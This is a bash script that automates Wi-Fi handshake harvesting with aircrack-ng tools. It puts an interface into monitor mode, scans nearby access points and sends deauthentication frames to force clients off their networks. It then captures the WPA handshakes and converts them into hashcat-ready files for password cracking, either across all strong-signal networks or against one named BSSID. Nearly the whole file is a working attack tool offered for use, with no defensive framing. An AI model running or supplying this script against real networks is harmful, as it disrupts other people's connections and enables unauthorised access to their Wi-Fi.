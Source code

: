 #!/bin/bash

interface=""
channel=""

checkUtils(){
        printf "Check utilities\n"
        
        #airmon-ng
        output=$(airmon-ng)
        if [[ "$output" == *"PHY"* ]]; then

                printf "airmon-ng....\033[32m Done\033[0m\n"
        else
                printf "airmon-ng....\033[31mFail\033[0m\n"
                exit 1
        fi

        #airodump-ng
        output=$(airodump-ng)
        if [[ "$output" == *"usage: airodump-ng"* ]]; then
                printf "airodump-ng....\033[32m Done\033[0m\n"
        else
                printf "airodump-ng....\033[31m Fail\033[0m\n"
                exit 1
        fi


        printf "\n"
}

checkHandshakes() {
        #trap 'cleanup' EXIT
        printf "\n"
        echo "Check handshakes..."
        cleanout=$(wpaclean ./hscollector/cleancap.cap ./hscollector/shakes-01.cap)
        echo $cleanout
        if [[ "$cleanout" == *"Net "* ]]; then
                output=$(cap2hccapx ./hscollector/cleancap.cap ./hscollector/cleanshakes.hccapx)
                echo $output
                if [[ "$output" != *"Written 0"* ]]; then
                        printf "\033[32mHandshakes detected!!!\033[0m\n"
                        time=$(date +%s)
                        filename="shake-$time"
                        if [[ -d ./hscollector/shakes ]]; then
                                mv ./hscollector/cleanshakes.hccapx ./hscollector/shakes/shake-$time
                        else
                                mkdir ./hscollector/shakes
                                chmod 777 -R ./hscollector/shakes
                                mv ./hscollector/cleanshakes.hccapx ./hscollector/shakes/shake-$time
                        fi
                        cleanup
                        exit 0
                 else
                        printf "\033[31mNo handshakes\033[0m\n"
                        rm ./hscollector/cleanshakes.hccapx >/dev/null
                 fi
        else 
                printf "\033[31mNo handshakes\033[0m\n"
                rm ./hscollector/cleanshakes.hccapx >/dev/null
        fi
        rm cleancap.cap > /dev/null
}

airodumpPID=""
passive() {
  trap 'cleanup;getparams' EXIT
  airmon-ng start $interface >/dev/null
  echo "Start airodump.."
  timeout 60 airodump-ng -w ./hscollector/shakes $interface </dev/null >/dev/null
  checkHandshakes
  rm ./hscollector/shakes-* > /dev/null
  passive
}

active() {
  trap 'cleanup;' EXIT
  echo "Collect APs..."
  timeout 10 airodump-ng -w ./hscollector/shakesCollector $interface </dev/null >/dev/null 
  while IFS=";" read -r id NetType ESSID BSSID Info Channel Cloaked Encryption Decrypted MaxRate MaxSeenRate Beacon LLC Data Crypt Weak Total Carrier Encoding FirstTime LastTime BestQuality BestSignal; do        
          if [[ $BSSID == "BSSID" ]];then
                  continue
          fi
          if [[ $id == "" ]]
          then
                  continue
          fi
          if [[ $BestQuality -lt -70 ]] || [[ $BestQuality -eq -1 ]]
          then
                  continue
          fi
            
          printf "Attack: $BSSID \nChannel: $Channel \nPower: $BestQuality\nSSID: $ESSID\n"
          iwconfig $interface channel $Channel
          aireplay-ng -a $BSSID -0 10 $interface &
          airodump-ng --bssid $BSSID --channel $Channel -w ./hscollector/shakes $interface >/dev/null 2>&1 </dev/null &
          airodumpPID=`echo $!`
          sleep 30
          kill -9 $airodumpPID
          checkHandshakes
          rm ./hscollector/shakes-01.* >/dev/null
  done < <(tac ./hscollector/shakesCollector-01.kismet.csv)
  rm ./hscollector/shakes* &>/dev/null
  
}

attackSpecific(){
           trap 'cleanup;' EXIT
           airmon-ng start $interface >/dev/null
           BSSID_SEARCH=$1
           CHANNEL=$2
           echo "CHannel:" $CHANNEL "BSSID:" $BSSID_SEARCH
          iwconfig $interface channel $CHANNEL
          aireplay-ng -a $BSSID_SEARCH -0 10 $interface &
          airodump-ng --bssid $BSSID_SEARCH --channel $CHANNEL -w ./hscollector/shakes $interface 1>/dev/null 2>/dev/null 3>/dev/null &
          airodumpPID=`echo $!`
          sleep 30
          echo "airodumpPID:"$airodumpPID
          kill -9 $airodumpPID
          checkHandshakes

            cleanup
            #rm ./hscollector/shakesCollector* &>/dev/null
            #rm ./hscollector/shakes* &>/dev/null
            attackSpecific $1
}

cleanup(){
        kill -9 $airodumpPID
        rm cleancap.cap

        rm ./hscollector/shakes* &> /dev/null
        rm ./hscollector/cleanshakes.hccapx &> /dev/null
}

#trap 'cleanup;exit 0' SIGINT SIGTERM ERR EXIT

if [[ "$(whoami)" != root ]]; then
  echo "Only user root can run this script."
  exit 1
fi

main(){
        checkUtils
        mkdir -p hscollector
        cleanup
}




if [[ $1 != "" ]] && [[ $2 != "" ]];then
                interface=$1
                checkUtils
                mkdir -p hscollector
                cleanup
                airmon-ng start $interface >/dev/null

                if [[ $2 == "a" ]];then
                        active
                fi
                if [[ $2 == "p" ]];then
                        passive

                fi
                if [[ $2 == "s" ]];then
                        if [[ $3 == "" ]];then
                                channel=$4
                                echo "Enter BSSID of AP"
                                exit 1
                        fi
                        echo $3 $channel
                        attackSpecific $3 $4 
                fi
                
                exit 0

fi
main 
